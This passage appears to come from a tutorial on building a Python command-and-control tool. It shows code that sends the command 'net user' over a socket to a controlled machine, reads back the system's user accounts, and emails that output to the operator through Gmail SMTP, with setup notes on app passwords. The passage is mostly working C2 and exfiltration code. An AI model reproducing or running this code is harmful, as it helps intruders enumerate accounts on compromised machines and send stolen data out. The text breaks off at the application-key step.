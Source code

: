 In this function, we create a while loop to receive and execute the commands continuously. But if the command is = any predefined function in the program, then the specific function will be executed.

## Send E-mail

```python
def send_email(self, subject, body, sender, recipients, password):
        msg = MIMEText(body)
        msg['Subject'] = subject
        msg['From'] = sender
        msg['To'] = ', '.join(recipients)

        with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:
            smtp_server.login(sender, password)
            smtp_server.sendmail(sender, recipients, msg.as_string())

        print(colored(f"\n[+] Emails sent successfully!!\n", 'green'))
```

The purpose of this function is to send e-mail whit the output of the specific command.

## Example of Specific Command

```python
def get_user(self, command):
        self.client_socket.send(b"net user")
        command_output = self.client_socket.recv(2048).decode()
        self.send_email("Net Users Report - C2", command_output, "your@gmail.com", ["your@gmail.com"], "jdad cnda uvda sawa") # e-mail addres && aplication key of yout e-mail addres
```
This function is used to obtain valid users from the system and send them by e-mail. In the **self.send_email()** part, you need to put your e-mail where you want to receive the content and the application key. And it is important to have two-step verification on your email account.

Two-step verification:

![](/assets/images/Command-And-Control/two-set-verification.png)

Application Key:
